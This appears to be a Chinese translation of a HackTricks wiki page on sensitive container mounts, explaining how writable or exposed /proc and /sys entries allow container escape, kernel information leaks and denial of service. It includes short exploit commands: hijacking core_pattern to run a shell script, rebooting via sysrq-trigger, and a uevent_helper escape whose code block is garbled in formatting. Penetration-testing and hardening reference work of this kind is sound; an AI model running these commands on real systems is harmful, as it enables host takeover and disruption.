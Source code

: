 # 敏感挂载点

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

未经适当命名空间隔离的`/proc`和`/sys`的暴露会引入重大安全风险，包括扩大攻击面和信息泄露。这些目录包含敏感文件，如果配置不当或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，不正确地挂载`-v /proc:/host/proc`可能绕过AppArmor保护，因为其基于路径的特性，使`/host/proc`无保护。

**您可以在** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** **中找到每个潜在漏洞的更多详细信息。

## procfs漏洞

### `/proc/sys`

此目录允许访问以修改内核变量，通常通过`sysctl(2)`进行，包含几个相关子目录：

#### **`/proc/sys/kernel/core_pattern`**

* 在[core(5)](https://man7.org/linux/man-pages/man5/core.5.html)中描述。
* 允许定义一个程序，在核心文件生成时使用前128个字节作为参数执行。如果文件以管道`|`开头，这可能导致代码执行。
*   **测试和利用示例**：

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入权限
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

#### **`/proc/sys/kernel/modprobe`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中详细描述。
* 包含内核模块加载器的路径，用于加载内核模块。
*   **检查访问权限示例**：

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对modprobe的访问权限
```

#### **`/proc/sys/vm/panic_on_oom`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中引用。
* 一个全局标志，控制当发生OOM条件时内核是崩溃还是调用OOM killer。

#### **`/proc/sys/fs`**

* 根据[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
* 写入权限可能导致对主机的各种拒绝服务攻击。

#### **`/proc/sys/fs/binfmt_misc`**

* 允许根据其魔术数字为非本机二进制格式注册解释器。
* 如果`/proc/sys/fs/binfmt_misc/register`可写，可能导致特权升级或root shell访问。
* 相关利用和解释：
* [通过binfmt\_misc实现的简易rootkit](https://github.com/toffan/binfmt\_misc)
* 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`中的其他内容

#### **`/proc/config.gz`**

* 如果启用了`CONFIG_IKCONFIG_PROC`，可能会显示内核配置。
* 对攻击者有用，以识别运行中内核中的漏洞。

#### **`/proc/sysrq-trigger`**

* 允许调用Sysrq命令，可能导致立即系统重启或其他关键操作。
*   **重启主机示例**：

```bash
echo b > /proc/sysrq-trigger # 重启主机
```

#### **`/proc/kmsg`**

* 显示内核环形缓冲区消息。
* 可以帮助内核利用、地址泄漏和提供敏感系统信息。

#### **`/proc/kallsyms`**

* 列出内核导出的符号及其地址。
* 对于内核利用开发至关重要，特别是用于克服KASLR。
* 地址信息受`kptr_restrict`设置为`1`或`2`的限制。
* 详细信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/[pid]/mem`**

* 与内核内存设备`/dev/mem`交互。
* 在历史上容易受到特权升级攻击。
* 更多信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/kcore`**

* 以ELF核心格式表示系统的物理内存。
* 读取可能泄露主机系统和其他容器的内存内容。
* 大文件大小可能导致读取问题或软件崩溃。
* 在[2019年转储/proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)中详细介绍了用法。

#### **`/proc/kmem`**

* `/dev/kmem`的替代接口，表示内核虚拟内存。
* 允许读取和写入，因此可以直接修改内核内存。

#### **`/proc/mem`**

* `/dev/mem`的替代接口，表示物理内存。
* 允许读取和写入，修改所有内存需要解析虚拟到物理地址。

#### **`/proc/sched_debug`**

* 返回进程调度信息，绕过PID命名空间保护。
* 显示进程名称、ID和cgroup标识符。

#### **`/proc/[pid]/mountinfo`**

* 提供有关进程挂载命名空间中挂载点的信息。
* 显示容器`rootfs`或镜像的位置。

### `/sys`漏洞

#### **`/sys/kernel/uevent_helper`**

* 用于处理内核设备`uevents`。
* 写入`/sys/kernel/uevent_helper`可以在`uevent`触发时执行任意脚本。
*   **利用示例**： %%%bash

## 创建有效载荷

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## 从OverlayFS挂载的容器中查找主机路径

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## 将uevent\_helper设置为恶意助手

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## 触发uevent

echo change > /sys/class/mem/null/uevent

## 读取输出

cat /output %%%
#### **`/sys/class/thermal`**

* 控制温度设置，可能导致 DoS 攻击或物理损坏。

#### **`/sys/kernel/vmcoreinfo`**

* 泄露内核地址，可能危及 KASLR。

#### **`/sys/kernel/security`**

* 包含 `securityfs` 接口，允许配置类似 AppArmor 的 Linux 安全模块。
* 访问可能使容器能够禁用其 MAC 系统。

#### **`/sys/firmware/efi/vars` 和 `/sys/firmware/efi/efivars`**

* 提供与 NVRAM 中的 EFI 变量交互的接口。
* 配置错误或利用可能导致笔记本变砖或主机无法启动。

#### **`/sys/kernel/debug`**

* `debugfs` 为内核提供了一个“无规则”调试接口。
* 由于其不受限制的特性，存在安全问题的历史。

### 参考资料

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的 **公司广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

